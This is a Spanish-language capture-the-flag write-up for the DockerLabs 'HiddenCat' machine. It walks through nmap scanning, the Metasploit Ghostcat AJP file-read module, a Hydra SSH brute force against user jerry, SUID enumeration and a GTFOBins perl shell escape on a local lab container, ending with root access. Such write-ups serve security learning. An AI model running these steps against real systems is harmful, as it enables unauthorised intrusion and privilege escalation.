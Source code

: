 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

Vemos que tenemos un ssh con dos servicios en los puertos 8080 y 8009, vamos a escanear mas profundamente:

```bash
❯ sudo nmap -p22,8009,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 14:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Vemos varios servicios, vemos la web del puerto 8080:

![tomcathiddencat.png](assets/tomcathiddencat.png)

Un tomcat normal, hago una búsqueda de directorios con gobuster y tampoco encuentro nada.

Así que vamos a ver el servicio AJP, resulta que buscando en exploit db vemos que existe una CVE para este servicio que nos puede permitir leer archivos que no deberíamos, dejo el enlace para que podais conultarlo: [Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

También por el nombre ghostcat podemos saber que vamos bien encaminados ya que la maquina se llama hiddencat, tienen un parecido.
Abrimos metaesploit y usamos desde ahí esta vulnerabilidad:


```bash
❯ msfconsole
Metasploit tip: Writing a custom module? After editing your module, why not try 
the reload command
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

sea[msf](Jobs:0 Agents:0) >> search ajp

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat                 2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   1  exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747  2023-10-26       excellent  Yes    F5 BIG-IP TMUI AJP Smuggling RCE
   2  exploit/linux/http/netgear_unauth_exec               2016-02-25       excellent  Yes    Netgear Devices Unauthenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/netgear_unauth_exec

[msf](Jobs:0 Agents:0) >> use 0
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    172.17.0.2        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(admin/http/tomcat_ghostcat) >> run
```

Aqui hemos buscado el servicio ajp y usamos el exploit file read inclusion, cuando le damos a run nos muestra este codigo:

![ghostcat.png](assets/ghostcat.png)

Vemos un mensaje curioso: 

**Welcome to Tomcat, Jerry ;)**

¡Tenemos un usuario!

Con este mensaje lo primero que intente es un ataque de fuerza bruta al ssh con el usuario jerry y el rockyou a ver si me daba un caso positivo:

```bash
❯ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 14:45:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-27 14:45:48

```

Y justo, conseguimos las credenciales:

```ruby
	login: jerry   password: chocolate
```

vamos a conectarnos al ssh y enumerar permisos de este ususario:

```bash
❯ ssh jerry@172.17.0.2
jerry@172.17.0.2s password: 
jerry@3349dee43bec:~$ id
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry)
jerry@3349dee43bec:~$ sudo -l
-bash: sudo: command not found
jerry@3349dee43bec:~$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Despues de enumerar los permisos sudo sin éxito, enumero los suid y veo que tenemos suid de perl y python.

Intente primero con perl en un comando de [GTFOBINS](https://gtfobins.github.io/#) sin éxito:

```bash
jerry@3349dee43bec:~$ /usr/bin/perl -e 'exec "/bin/sh";'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LC_ADDRESS = "es_ES.UTF-8",
	LC_NAME = "es_ES.UTF-8",
	LC_MONETARY = "es_ES.UTF-8",
	LC_PAPER = "es_ES.UTF-8",
	LC_IDENTIFICATION = "es_ES.UTF-8",
	LC_TELEPHONE = "es_ES.UTF-8",
	LC_MEASUREMENT = "es_ES.UTF-8",
	LC_TIME = "es_ES.UTF-8",
	LC_NUMERIC = "es_ES.UTF-8",
	LANG = "es_ES.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Insecure $ENV{PATH} while running setuid at -e line 1.
jerry@3349dee43bec:~$
```

Al darme este error de variables de entorno sin configurar intente antes usar el [SUID de python](https://gtfobins.github.io/gtfobins/python/#suid), a ver si no me daba problemas antes de profundizar mas en perl y me dio ya el acceso root:

![rootHiddenCat.png](assets/rootHiddenCat.png)

Y obtenemos root con máximos privilegios.